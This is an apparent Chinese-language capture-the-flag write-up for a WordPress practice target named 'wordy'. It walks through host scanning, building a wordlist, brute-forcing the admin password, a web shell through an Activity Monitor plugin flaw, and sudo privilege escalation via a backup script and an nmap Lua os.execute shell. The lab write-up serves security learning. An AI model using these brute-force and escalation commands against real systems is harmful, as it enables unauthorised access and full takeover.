# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24
nmap -sS 192.168.182.147
```

浏览器地址栏输入靶机IP地址，发现显示域名但无法解析域名导致无法访问网站

host文件添加:   192.168.182.147  wordy

成功访问



查看一下cms



找到后台登录地址



## 后台登录

### 使用cewl工具破解密码

```
cewl http://wordy -w PASS.TXT
```

### 使用wpscan跑用户名

```bash
wpscan --url http://wordy 
wpscan --url http://wordy -e u    #将扫出的用户名保存到USER.TXT
```

### 暴力破解

先用的PASS.TXT结果没有跑出来,然后官方线索里面有这样一句话



rockyou.txt，这个字典非常庞大，有几千万的数据，如果使用整个字典爆破的话要花费很长时间，所以先输入提示中的命令来筛选一些密码保存到文件中，再进行爆破。

```
wpscan --url wordy -U USER.TXT -P passwords.txt  
```

成功爆出密码

```
Username: mark, Password: helpdesk01
```

登录后台



# 漏洞发现

在后台里面发现activity monitor插件，我们尝试搜索这个插件的漏洞



```
searchsploit activity monitor
```

发现一个csrf漏洞



# getshell

修改一下



但是没有成功

抓包修改了一下poc



成功getshell



进入交互界面

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权

成功getshell之后在home目录下一顿乱翻

发现



估计添加了个新用户

成功登录

执行：`sudo -l`，在`/home/jens`目录下发现一个sh文件，如果以jens身份执行不需要密码。`cat`查看文件内容发现是对网站的打包命令，作用是备份网站根目录。



## 越权jens

那么如果在这个文件中写入/bin/bash命令，然后以jens用户身份运行就可以获取到jens的shell了。命令：

```
echo "/bin/bash" >> backups.sh
sudo -u jens ./backups.sh
```



## 越权root

执行`sudo -l`命令，发现在**jens**的shell下，可以在不需要密码的情况下，以**root**的身份权限执行nmap



nmap工具是可以执行脚本的，那么我们把弹root用户shell的命令写入到nmap的脚本里面，然后用nmap命令执行即可切换到root用户的shell。命令：

```
echo 'os.execute("/bin/sh")' > 2.sh
sudo  nmap  --script=2.sh
```



获取flag

